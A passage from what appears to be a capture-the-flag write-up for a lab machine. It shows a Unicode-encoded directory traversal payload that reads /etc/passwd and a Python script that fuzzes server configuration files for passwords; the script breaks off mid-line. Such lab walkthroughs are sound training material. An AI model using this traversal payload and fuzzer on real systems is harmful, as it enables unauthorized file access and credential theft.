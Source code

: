 <span style="background-color: #FFFF00">**Note** :Don't close your http server as it will request the verify with each request issued</span>

# Foothold

visiting the **last quarter** we can find it issues this request :

```
http://10.10.11.126/display/?page=quarterly.pdf
```

we can try directory traversal But it fails , we can make use of the [Unicode_Encoding](https://owasp.org/www-community/attacks/Unicode_Encoding) as the machine name suggests , and using this payload

```bash
page=%EF%B8%B0/%EF%B8%B0/%EF%B8%B0/%EF%B8%B0/%EF%B8%B0/etc/passwd
```

![error](/assets/images/unicode/20220506211903.png)

It works , we can try to read the ssh key for the user **code** But we can't. so we can start fuzzing different files on the machine until we got a password for our foothold.

From the `/etc/passwd` we can see it has the MYSQL and ngnix Services running we can read their configuration files.

searching online found these default configuration files :

```bash
/etc/mysql/my.cnf
/var/lib/mysql/my.cnf
/var/log/mysql.log
/etc/nginx/nginx.conf
/etc/nginx/sites-available/default
```

i added some files as well and write down this script searching for passwords:

```python
#!/usr/bin/python3
import requests
import time

url = 'http://10.10.11.126/display/?page=%EF%B8%B0/%EF%B8%B0/%EF%B8%B0/%EF%B8%B0/%EF%B8%B0'

cookie ={
'auth' : '<your_auth>'
}
with open('wordlist.txt') as wordlist :
	for word in wordlist:
		r = requests.get(url+word.strip(),cookies=cookie)

		if 'font' in r.text and 'animation' in r.text :
			print(f"file {word.strip()} : 404 NOTFOUND")
		else :
			print(f"file {word.strip()} : 200 OK")
			if "pass" in r.text.lower() :
```